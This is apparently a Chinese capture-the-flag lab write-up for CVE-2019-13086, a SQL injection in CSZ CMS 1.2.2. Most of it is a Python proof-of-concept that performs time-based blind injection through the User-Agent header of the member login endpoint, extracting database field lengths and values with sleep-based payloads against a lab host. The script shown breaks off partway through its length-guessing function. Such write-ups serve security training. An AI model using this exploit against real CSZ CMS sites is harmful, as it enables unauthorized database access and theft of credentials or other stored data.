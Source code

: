 

## CVE-2019-13086 CSZ CMS 1.2.2 sql注入漏洞

*靶标介绍：*

CSZ CMS是一套基于PHP的开源内容管理系统（CMS）。 CSZ CMS 1.2.2版本（2019-06-20之前）中的core/MY_Security.php文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

参考 https://github.com/cskaza/cszcms/issues/19

/member/login/check

但是没什么效果 。。。 只能用唯一的poc 把里面的网址改成靶机地址，里面的表和字段改成flag 慢慢等待

https://github.com/lingchuL/CVE_POC_test

```
import requests
import time
import threading
import multiprocessing

pool="abcdefgh1234567890{}-"
mutex=0

#获取长度用的User-Agent模板
ual="'-(if((length((select name from user_admin limit 1))=10),sleep(5),1))-'', '127.0.0.1','time') #"


#"Why don't you just build something"
#----------------------------------------------------获取管理员用户名长度--------------------------------------------
def getlength(field,tbname,total):
    ual_head="'-(if((length((select "     #这些空格一定要保留
    ual_middle=" limit 1))="
    num=1
    ual_last="),sleep(5),1))-'', '127.0.0.1','time') #"

    datas={'email':'111@111.com',
        'password':'111'
    }
    
    header={'Host': 'eci-2ze8rt76cjmpt14gz43t.cloudeci1.ichunqiu.com',
            'Content-Length': '74',
            'Cache-Control': 'max-age=0',
            'Origin': 'http://eci-2ze8rt76cjmpt14gz43t.cloudeci1.ichunqiu.com',
            'Upgrade-Insecure-Requests': '1',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': ual,
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'Referer': 'http://eci-2ze8rt76cjmpt14gz43t.cloudeci1.ichunqiu.com/member/login',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection': 'close'}

    starttime=time.time()
    for num in range(total):
        header['User-Agent']=ual_head+field+" from "+tbname+ual_middle+str(num)+ual_last
        #print(header['User-Agent'])
        sendtime=time.time()
        response=requests.post(r"http://eci-2ze8rt76cjmpt14gz43t.cloudeci1.ichunqiu.com/member/login/check/post",data=datas,headers=header)
        recvtime=time.time()

```